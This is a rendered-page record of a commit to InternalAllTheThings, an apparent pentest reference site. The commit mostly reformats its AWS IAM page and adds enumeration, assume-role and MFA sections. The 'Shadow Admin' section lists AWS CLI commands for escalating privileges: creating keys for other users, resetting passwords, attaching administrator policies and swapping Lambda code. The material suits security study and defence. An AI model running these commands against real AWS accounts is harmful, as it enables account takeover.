

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/cloud/aws/aws-iam.md, in a window 1280 px wide and 1400 px high, scrolled down 204 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
AS400 + AWS IAM

````diff
--- a/docs/cloud/aws/aws-iam.md
+++ b/docs/cloud/aws/aws-iam.md
@@ -6,11 +6,37 @@
 aws iam list-access-keys
 ```
 
-### Listing IAM Users and Groups
+## Listing IAM Users and Groups
 
 ```ps1
 aws iam list-users
 aws iam list-groups
+```
+
+## Get IAM Details
+
+```ps1
+aws iam get-account-authorization-details > iam.json
+```
+
+## Assume a Specific Role
+
+```ps1
+aws sts assume-role --role-arn arn:aws:iam::${accountId}:role/${roleName} --role-session-name ${roleName}
+```
+
+## Login with MFA
+
+Retrieve the MFA device ARN:
+
+```ps1
+aws iam list-mfa-devices
+```
+
+Then create the session token:
+
+```ps1
+aws sts get-session-token --serial-number ${arnMFADevice} --token-code ${MFACode}
 ```
 
 ## Shadow Admin
@@ -25,68 +51,79 @@
     ```
 
 - **ec2:AssociateIamInstanceProfile** : attach an IAM instance profile to an EC2 instance
+
     ```powershell
     aws ec2 associate-iam-instance-profile --iam-instance-profile Name=admin-role --instance-id i-0123456789
     ```
 
 - **iam:CreateAccessKey** : create a new access key to another IAM admin account
+
     ```powershell
     aws iam create-access-key –user-name target_user
     ```
 
 - **iam:CreateLoginProfile** : add a new password-based login profile, set a new password for an entity and impersonate it
+
     ```powershell
-    $ aws iam create-login-profile –user-name target_user –password '|[3rxYGGl3@`~68)O{,-$1B”zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;|,lyTKOLG7J[qH$LV5U<9`O~Z”,jJ[iT-D^(' –no-password-reset-required
+    aws iam create-login-profile –user-name target_user –password '|[3rxYGGl3@`~68)O{,-$1B”zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;|,lyTKOLG7J[qH$LV5U<9`O~Z”,jJ[iT-D^(' –no-password-reset-required
     ```
 
 - **iam:UpdateLoginProfile** : reset other IAM users’ login passwords.
+
     ```powershell
-    $ aws iam update-login-profile –user-name target_user –password '|[3rxYGGl3@`~68)O{,-$1B”zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;|,lyTKOLG7J[qH$LV5U<9`O~Z”,jJ[iT-D^(' –no-password-reset-required
+    aws iam update-login-profile –user-name target_user –password '|[3rxYGGl3@`~68)O{,-$1B”zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;|,lyTKOLG7J[qH$LV5U<9`O~Z”,jJ[iT-D^(' –no-password-reset-required
     ```
 
 - **iam:AttachUserPolicy**, **iam:AttachGroupPolicy** or **iam:AttachRolePolicy** : attach existing admin policy to any other entity he currently possesses
+
     ```powershell
-    $ aws iam attach-user-policy –user-name my_username –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
-    $ aws iam attach-user-policy –user-name my_username –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
-    $ aws iam attach-role-policy –role-name role_i_can_assume –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
+    aws iam attach-user-policy –user-name my_username –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
+    aws iam attach-user-policy –user-name my_username –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
+    aws iam attach-role-policy –role-name role_i_can_assume –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
     ```
 
 - **iam:PutUserPolicy**, **iam:PutGroupPolicy** or **iam:PutRolePolicy** : added inline policy will allow the attacker to grant additional privileges to previously compromised entities.
+
     ```powershell
-    $ aws iam put-user-policy –user-name my_username –policy-name my_inline_policy –policy-document file://path/to/administrator/policy.json
+    aws iam put-user-policy –user-name my_username –policy-name my_inline_policy –policy-document file://path/to/administrator/policy.json
     ```
 
 - **iam:CreatePolicy** : add a stealthy admin policy
 - **iam:AddUserToGroup** : add into the admin group of the organization.
+
     ```powershell
-    $ aws iam add-user-to-group –group-name target_group –user-name my_username
+    aws iam add-user-to-group –group-name target_group –user-name my_username
     ```
 
 - **iam:UpdateAssumeRolePolicy** + **sts:AssumeRole** : change the assuming permissions of a privileged role and then assume it with a non-privileged account.
+
     ```powershell
-    $ aws iam update-assume-role-policy –role-name role_i_can_assume –policy-document file://path/to/assume/role/policy.json
+    aws iam update-assume-role-policy –role-name role_i_can_assume –policy-document file://path/to/assume/role/policy.json
     ```
 
 - **iam:CreatePolicyVersion** & **iam:SetDefaultPolicyVersion** : change customer-managed policies and change a non-privileged entity to be a privileged one.
+
     ```powershell
-    $ aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://path/to/administrator/policy.json –set-as-default
-    $ aws iam set-default-policy-version –policy-arn target_policy_arn –version-id v2
+    aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://path/to/administrator/policy.json –set-as-default
+    aws iam set-default-policy-version –policy-arn target_policy_arn –version-id v2
     ```
 
 - **lambda:UpdateFunctionCode** : give an attacker access to the privileges associated with the Lambda service role that is attached to that function.
+
     ```powershell
-    $ aws lambda update-function-code –function-name target_function –zip-file fileb://my/lambda/code/zipped.zip
+    aws lambda update-function-code –function-name target_function –zip-file fileb://my/lambda/code/zipped.zip
     ```
 
 - **glue:UpdateDevEndpoint** : give an attacker access to the privileges associated with the role attached to the specific Glue development endpoint.
+
     ```powershell
-    $ aws glue –endpoint-name target_endpoint –public-key file://path/to/my/public/ssh/key.pub
+    aws glue –endpoint-name target_endpoint –public-key file://path/to/my/public/ssh/key.pub
     ```
-
 
 - **iam:PassRole** + **ec2:CreateInstanceProfile**/**ec2:AddRoleToInstanceProfile** : an attacker could create a new privileged instance profile and attach it to a compromised EC2 instance that he possesses.
 
 - **iam:PassRole** + **ec2:RunInstance** : give an attacker access to the set of permissions that the instance profile/role has, which again could range from no privilege escalation to full administrator access of the AWS account.
+
     ```powershell
     # add ssh key
     $ aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-profile Name=iam-full-access-ip –key-name my_ssh_key –security-group-ids sg-123456
@@ -95,11 +132,14 @@
     ```
 
 - **iam:PassRole** + **lambda:CreateFunction** + **lambda:InvokeFunction** : give a user access to the privileges associated with any Lambda service role that exists in the account.
+
     ```powershell
-    $ aws lambda create-function –function-name my_function –runtime python3.6 –role arn_of_lambda_role –handler lambda_function.lambda_handler –code file://my/python/code.py
-    $ aws lambda invoke –function-name my_function output.txt
+    aws lambda create-function –function-name my_function –runtime python3.6 –role arn_of_lambda_role –handler lambda_function.lambda_handler –code file://my/python/code.py
+    aws lambda invoke –function-name my_function output.txt
     ```
+
     Example of code.py
+
     ```python
     import boto3
     def lambda_handler(event, context):
@@ -111,12 +151,12 @@
         return response
     ```
 
-* **iam:PassRole** + **glue:CreateDevEndpoint** : access to the privileges associated with any Glue service role that exists in the account.
+- **iam:PassRole** + **glue:CreateDevEndpoint** : access to the privileges associated with any Glue service role that exists in the account.
+
     ```powershell
-    $ aws glue create-dev-endpoint –endpoint-name my_dev_endpoint –role-arn arn_of_glue_service_role –public-key file://path/to/my/public/ssh/key.pub
+    aws glue create-dev-endpoint –endpoint-name my_dev_endpoint –role-arn arn_of_glue_service_role –public-key file://path/to/my/public/ssh/key.pub
     ```
-
 
 ## References
 
-* [Cloud Shadow Admin Threat 10 Permissions Protect - CyberArk](https://www.cyberark.com/threat-research-blog/cloud-shadow-admin-threat-10-permissions-protect/)
+- [Cloud Shadow Admin Threat 10 Permissions Protect - CyberArk](https://www.cyberark.com/threat-research-blog/cloud-shadow-admin-threat-10-permissions-protect/)
````
Also changed, not shown: docs/cheatsheets/as-400.md (+39 -3 lines), docs/methodology/bug-hunting-methodology.md (+14 -4 lines).
